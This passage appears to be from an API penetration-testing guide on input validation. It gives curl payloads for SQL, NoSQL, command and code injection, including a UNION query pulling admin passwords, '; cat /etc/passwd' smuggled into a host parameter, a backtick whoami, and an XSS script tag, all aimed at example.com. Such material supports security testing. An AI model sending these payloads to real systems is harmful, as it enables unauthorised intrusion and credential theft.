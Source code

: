 
## 7️⃣ Input Validation Testing

### 💉 Injection Attack Testing

**SQL Injection**
```bash
# Classic SQL injection
curl "https://api.example.com/users?id=1' OR '1'='1"

# Union-based attacks
curl "https://api.example.com/users?id=1' UNION SELECT username,password FROM admin_users--"

# Blind SQL injection
curl "https://api.example.com/users?id=1' AND (SELECT COUNT(*) FROM users) > 0--"

# Time-based blind injection
curl "https://api.example.com/users?id=1'; WAITFOR DELAY '00:00:05'--"
```

**NoSQL Injection**
```bash
# MongoDB injection
curl -X POST https://api.example.com/login \
-d '{"username": {"$ne": ""}, "password": {"$ne": ""}}'

# CouchDB injection
curl "https://api.example.com/users?selector={\"$or\":[{},{\"admin\":true}]}"
```

**Command Injection**
```bash
# OS command injection
curl "https://api.example.com/ping?host=8.8.8.8; cat /etc/passwd"
curl "https://api.example.com/convert?file=test.txt`whoami`"

# Code injection
curl -X POST https://api.example.com/execute \
-d '{"code": "eval(\"process.env\")"}'
```

### 🔍 Data Validation Testing

**Input Boundary Testing**
```bash
# Length validation
curl -X POST https://api.example.com/users \
-d '{"name": "'$(python -c 'print("A"*10000)')'", "email": "test@example.com"}'

# Special character handling
curl -X POST https://api.example.com/users \
-d '{"name": "<script>alert(1)</script>", "email": "test@example.com"}'

# Unicode and encoding tests
curl -X POST https://api.example.com/users \
-d '{"name": "测试用户", "email": "test@example.com"}'
```
